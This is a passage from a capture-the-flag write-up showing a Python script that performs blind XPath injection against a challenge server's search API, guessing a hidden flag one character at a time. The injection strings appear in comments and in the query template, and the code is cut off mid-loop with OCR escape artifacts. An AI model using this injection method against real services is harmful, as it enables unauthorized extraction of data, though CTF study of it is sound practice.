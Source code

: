 I then threw this in a script to iterate through the ascii character list. I made sure to remove bad chars that gave false positives. I also had to search for the flag twice, due to it being seperated into two parts.
```python
# This works: name = "a'\] |/military/district/staff\[selfDestructCode='\_f0r\_t3st1ng}"

#Working search function!! name = "a'\] |/military/district/staff/selfDestructCode\[contains(text(),'\_')\] | /military/district/staff\[name='"

  
  

import sys

import requests

  
  
  

#Set up our connection and header type

url = 'http://138.68.185.219:31629/api/search'

hdr = { 'Content-Type' : 'application/json' }

  

#Create list to contain flag

flag\_part\_1 = list()

flag\_part\_2 = list()

bad = 39

count = 0

Test = True

while Test:

	#Iterate through the ascii range while avoiding bad chars

	for i in \[x for x in range(31,128) if x != bad \]:

	c = chr(i)

	test\_flag = c

	print(" \\r%s" % test\_flag, end\='', flush\=True)

	query = '\\'\] |/military/district/staff/selfDestructCode\[starts-with(text(),\\'%s\\')\] | /military/district/staff\[name=\\'' % test\_flag

	data = '{"search":"%s"}' % query

	req = requests.post(url\=url, headers\=hdr, data\=data)

	#Check to see if we got the correct char

	if "This millitary staff member exists" in req.text and count == 0:

		count += 1
```